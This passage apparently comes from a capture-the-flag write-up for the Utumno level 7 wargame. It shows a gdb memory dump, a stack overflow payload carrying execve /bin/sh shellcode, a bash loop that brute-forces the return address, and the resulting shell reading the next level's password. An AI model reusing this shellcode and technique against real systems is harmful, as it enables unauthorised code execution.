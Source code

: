 ```nasm
0xffffd8e1:	0x303b3133	0x696d3a31	0x3a30303d	0x333d7573
0xffffd8f1:	0x31343b37	0x3d67733a	0x343b3033	0x61633a33
0xffffd901:	0x3b30333d	0x743a3134	0x30333d77	0x3a32343b
0xffffd911:	0x333d776f	0x32343b34	0x3d74733a	0x343b3733
0xffffd921:	0x78653a34	0x3b31303d	0x2a3a3233	0x7261742e
0xffffd931:	0x3b31303d	0x2a3a3133	0x7a67742e	0x3b31303d
0xffffd941:	0x2a3a3133	0x6372612e	0x3b31303d	0x2a3a3133
0xffffd951:	0x6a72612e	0x3b31303d	0x2a3a3133	0x7a61742e
0xffffd961:	0x3b31303d	0x2a3a3133	0x61686c2e	0x3b31303d
0xffffd971:	0x2a3a3133	0x347a6c2e	0x3b31303d	0x2a3a3133
0xffffd981:	0x687a6c2e	0x3b31303d	0x2a3a3133	0x6d7a6c2e
0xffffd991:	0x31303d61	0x3a31333b	0x6c742e2a	0x31303d7a
0xffffd9a1:	0x3a31333b	0x78742e2a	0x31303d7a	0x3a31333b
0xffffd9b1:	0x7a742e2a	0x31303d6f	0x3a31333b	0x37742e2a
0xffffd9c1:	0x31303d7a	0x3a31333b	0x697a2e2a	0x31303d70
0xffffd9d1:	0x3a31333b	0x3d7a2e2a	0x333b3130	0x2e2a3a31
0xffffd9e1:	0x31303d5a	0x3a31333b	0x7a642e2a	0x3b31303d
---Type <return> to continue, or q <return> to quit---q
Quit
(gdb) run $(python -c "print 'AAAA' + '\x11\xd8\xff\xff' +  '\x90' * 111  + '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + '\xdd\xd7\xff\xff'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /utumno/utumno7 $(python -c "print 'AAAA' + '\x11\xd8\xff\xff' +  '\x90' * 111  + '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + '\xdd\xd7\xff\xff'")
lol ulrich && fuck hector
process 26815 is executing new program: /bin/dash
$
```

Now, to get the shell, I wrote a quick bash script to bruteforce a proper return address:

```bash
utumno7@utumno:/utumno$ while [ $i  -lt  255 ]
> do
>    x=`printf "%02X\n"  $i`
>    echo $x
>    ./utumno7 $(python -c "print 'AAAA' +'\x11\xd8\xff\xff' +  '\x90' * 111  + '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + '\x$x\xd7\xff\xff'")
>    i=`expr $i + 1`
> done
00
-bash: warning: command substitution: ignored null byte in input
lol ulrich && fuck hector
Segmentation fault
01
lol ulrich && fuck hector
Segmentation fault
02
lol ulrich && fuck hector
Segmentation fault
03
lol ulrich && fuck hector

...[removed]...

lol ulrich && fuck hector
$ whoami
utumno8
$ cat /etc/utumno_pass/utumno8
jaeyeetiav
$
```
